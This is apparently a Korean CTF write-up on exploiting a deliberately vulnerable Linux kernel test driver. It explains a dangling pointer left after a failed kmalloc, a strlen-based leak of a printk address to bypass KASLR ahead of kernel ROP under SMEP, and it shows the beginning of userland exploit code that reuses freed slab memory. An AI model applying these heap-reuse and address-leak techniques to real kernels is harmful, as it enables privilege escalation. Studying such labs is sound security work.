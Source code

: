 `input_test_driver_write()`는 유저 공간에서 해당 드라이버에 대해 `write()`를 호출했을 때 커널 내부에서 호출되는 함수이다.

문제는 `ptr`가 `kmalloc()`으로 할당받은 영역을 가리키고 있을 때 해당 영역을 해제하고 다시 할당하는데, `ptr`을 초기화하지는 않는다.
대신 뒤에서 슬랩 객체를 새로 할당해서 `ptr`에 주소를 넣어주는데, 여기에서 또 다른 취약점이 발생한다.

커널의 `kmalloc()`에서 큰 사이즈의 슬랩 객체를 요청하면 할당에 실패하게 되고, `NULL`을 리턴한다.
`result`에 `NULL`이 들어가면 `ptr`에 값 갱신이 되지 않으므로, 해제했던 `ptr`이 dangling pointer로 남게 된다.


## 0x02. Exploit
### Out Of Bound
Exploit을 진행하기에 앞서 보호 기법을 되짚어보면 SMEP가 걸려있기 때문에 kernel ROP를 해야하지만, KASLR이 걸려있어 커널 base 주소를 구해야 한다.

``` c
static struct fp_struct {
    char dummy[392];
    asmlinkage int (*gift)(const char *, ...);
    int (*fp_report_ps)(char *, int);
    int (*fp_report_rl)(void);
};
```

대놓고 `fp_struct->gift`라는 변수명에 `printk()` 함수의 주소가 있으므로 잘 생각해보면, `strlen()`을 이용해 길이를 측정하는 취약점 때문에 `dummy`를 가득 채워주면 `gift`에 저장된 주소까지 출력하게 된다.

``` c
static int input_test_driver_release(struct inode *inode, struct file *file) {
    printk("input_test_driver release");

    mutex_lock(&test_mutex);

    if(ptr) {
        kfree(ptr);
        ptr = 0;
    }

    if(_fp) {
        kfree(_fp);
        _fp = 0;
    }

    mutex_unlock(&test_mutex);

    return 0;
}
```

드라이버와 통신하기 위해 `open()`했던 file descriptor를 `close()`할 때 호출되는 `input_test_driver_release()`를 보면 `ptr`, `_fp`를 해제하고 초기화하는 것을 확인할 수 있다.

하지만 슬랩 객체 안에 있는 데이터는 초기화하지 않기 때문에, 해제된 `_fp`의 크기와 비슷한 크기의 `ptr`을 할당한다면 해제되었던 영역을 다시 받아서 사용할 수 있다.

``` c
    fd1 = open("/dev/input/event2", O_RDONLY);
    fd2 = open("/dev/input_test_driver", O_RDWR);
    
    write(fd2, "AAAAAAAA", 8);          // kernel panic if there is no ptr
    ioctl(fd2, 0x1337, NULL);
    close(fd2);

    fd2 = open("/dev/input_test_driver", O_RDWR);
    memset(payload, 0x42, 392);
    write(fd2, payload, 392);

    ioctl(fd2, 0x1337, NULL);
```
